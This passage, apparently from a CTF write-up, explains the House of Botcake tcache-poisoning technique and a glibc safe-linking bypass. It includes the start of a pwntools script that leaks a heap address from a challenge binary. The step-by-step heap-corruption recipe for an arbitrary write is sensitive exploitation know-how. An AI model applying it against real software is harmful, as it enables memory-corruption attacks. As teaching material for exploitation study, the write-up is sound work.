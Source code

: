Which means to leak the heap address we simply have to print a free'd chunk once it has been inserted in the tcache.

# House of botcake

The [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) gives a write what where primitive by poisoning the tcache. The algorithm is:
- Allocate 7 `0x100` sized chunks to then fill the tcache (7 entries).
- Allocate two more `0x100` sized chunks (`prev` and `a` in the example).
- Allocate a small "barrier" `0x10` sized chunk.
- Fill the tcache by freeing the first 7 chunks.
- free(a), thus `a` falls into the unsortedbin.
- free(prev), thus `prev` is consolidated with `a` to create a large `0x221` sized chunk that is yet in the unsortedbin.
- Request one more `0x100` sized chunk to let a single entry left in the tcache.
- free(a) again, given `a` is part of the large `0x221` sized chunk it leads to an UAF. Thus `a` falls into the tcache.
- That's finished, to get a write what where we just need to request a `0x130` sized chunk. Thus we can hiijack the next fp of `a` that is currently referenced by the tcache by the location we wanna write to. And next time two `0x100` sized chunks are requested, the second one will be the target location.

# Getting arbitrary write

To make use of the write what were we got thanks to the [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c), we need to get both heap and libc leak. To leak libc that's pretty easily we just need to print out a free'd chunk stored into the unsortedbin, it's forward pointer is not encrypted with safe-linking.

As seen previously, to bypass safe-linking we have to print a free'd chunk once it has been inserted in the tcache. It would give us the base address of the heap. When we got it, we just have to initialize the location we wanna write to `location ^ ((heap_base + chunk_offset) >> 12)` to encrypt properly the pointer, this way the primitive is efficient.

Implmentation of the [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) + safe-linking bypass, heap and libc leak:
```py

io = start()

def alloc(idx, data, size):
   io.sendlineafter("-\n> ", b"1") 
   io.sendlineafter("Index?\n> ", str(idx).encode()) 
   io.sendlineafter("> ", str(size).encode()) 
   io.sendlineafter(": ", data) 

def free(idx):
   io.sendlineafter("> ", b"2") 
   io.sendlineafter("> ", str(idx).encode())

def view(idx):
   io.sendlineafter("> ", b"3") 
   io.sendlineafter("> ", str(idx).encode())

for i in range(7):
    alloc(i, b"", 0x100)

free(0)

view(0)

heap = ((pwn.u64(io.recvline()[:-1].ljust(8, b"\x00")) << 12))
pwn.log.info(f"heap @ {hex(heap)}")
```